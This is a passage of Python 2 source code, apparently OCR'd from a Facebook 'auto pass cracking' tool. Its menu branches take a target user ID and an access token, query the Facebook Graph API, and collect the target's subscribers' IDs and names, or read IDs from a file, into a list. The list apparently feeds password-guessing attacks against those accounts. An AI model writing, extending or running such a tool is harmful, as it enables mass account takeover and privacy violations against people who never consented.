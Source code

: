     elif select == '2':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[?] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
            os.system('clear')
            print logo
            print '\t     AUTO PASS CRACKING'
            print '\x1b[1;37m======================================================='
            print '[+] CLONING FROM : \x1b[1;32m' + q['name']
        except KeyError:
            print '\tInvalid id link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
        r = requests.get('https://graph.facebook.com/' + idt + '/subscribers?access_token=' + token + '&limit=999999')
        z = json.loads(r.text)
        for i in z['data']:
            uid = i['id']
            na = i['name']
            nm = na.rsplit(' ')[0]
            id.append(uid + '|' + na)
        
    elif select == '4':
        os.system('clear')
        print logo
        print '\t     AUTO PASS FILE CRACK'
        print '\x1b[1;37m======================================================='
        
        try:
            filelist = raw_input('[?] INPUT FILE NAME : \x1b[1;32m')
            for line in open(filelist, 'r').readlines():
                id.append(line.strip())
        except (KeyError, IOError):
            print '\t    \x1b[1;31mRequested file not found\x1b[1;36m'
            raw_input(' Press enter to back ')
            crack()
        
 
    if select == '3':
        os.system('clear')
        print logo
        print '\t     AUTO PASS CRACKING'
        print '\x1b[1;37m======================================================='
        idt = raw_input('[1] INPUT ID : ')
        
        try:
            r = requests.get('https://graph.facebook.com/' + idt + '?access_token=' + token)
            q = json.loads(r.text)
        except KeyError:
            print '\tInvalid link OR token'
            print ''
            raw_input('PRESS ENTER TO BACK')
            crack()
 
